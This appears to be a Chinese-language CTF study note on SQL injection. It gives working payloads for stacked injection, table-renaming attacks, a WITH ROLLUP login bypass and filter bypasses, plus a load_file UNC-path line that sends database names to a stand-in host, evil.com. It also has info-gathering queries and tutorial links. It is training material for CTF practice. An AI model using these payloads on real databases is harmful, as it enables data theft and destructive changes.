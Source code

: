 ```sql
    -1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#


    方式2.修改表名
    --原sql为 select * from words where id = ''; 修改为word表即可查
    1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
by pass strlen($username)!=strlen(replaceSpecialChar($username))+双写+$password==$row['password']
        "/(select|from|where|join|sleep|and|\s|union|,)/i";
        -- ctfshow_web10
        payload:username=admin'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#&password=

        rollup 介绍--with rollup是用来在分组统计数据的基础上再进行统计汇总，即用来得到group by的汇总信息
                   select `password`,count(*) from user GROUP BY `password`
                   select `password`,count(*) from user GROUP BY `password` with ROLLUP
    堆叠注入-[suctf 2019]EasySQL
        sql=“select”.post[‘query’]."||flag from Flag";  -- 输入 *,1
        select *,1||flag from Flag  =>
        select *,1 from Flag
by pass '单引号  [CISCN2019 总决赛 Day2 Web1]Easyweb,网鼎杯2018 comment
by pass =,()
        使用 like ,rlike, regexp
by pass 技术 16进制
        select * from users where user= 0x31; -- user=1; 数据位置能用16进制
by pass 路径, 使用 UNC路径-windows特有
        select load_file(concat('\\\\', (select hex(database())), '.evil.com)) 相当于访问 \\ctfer.vip\test, 会有http/tcp请求，
```

信息收集

```sql
SELECT @@datadir -- 数据库存储路径, /var/lib/mysql/
SELECT @@basedir -- mysql安装路径, /usr
```

## 学习参考链接 Wiki

[CTF 中 Web 题目的常见题型及解题姿势](https://mp.weixin.qq.com/s/b3NJgwh9_fR4BW-hKc0idA)

[渗透测试中如何快速拿到 Webshell](https://mp.weixin.qq.com/s/4o3IRc_vC9jSW12Sf-6taA)

[CTF web 题型解题技巧-第一课 思路讲解](https://mp.weixin.qq.com/s/QGjP8mHz3ZYVlgQqEGawjw)

[CTF web 题型理论基础篇-第二课 理论基础](https://mp.weixin.qq.com/s/aJg-qVl9ZAZ3b2UfW2uL1Q)

[CTF web 题型流量分析-第三课 （ctf 之流量分析） 工具使用-流量分析](https://mp.weixin.qq.com/s/LVGBp9rzjGoQ-4zwJvDFLQ)

[CTF web 题型解题技巧-第四课 web 总结](https://mp.weixin.qq.com/s/Yc2bZmVPO-akMCLKxfdAwQ)

[CTF web 题型总结 第五课-- CTF WEB 实战练习（一）](https://mp.weixin.qq.com/s/-xOlhBiOZF1FIvRXqH8eHQ)

[CTF web 题型总结-第六课 CTF WEB 实战练习(二)](https://mp.weixin.qq.com/s/Smz8azjp7F5oeyQkz5YM8w)
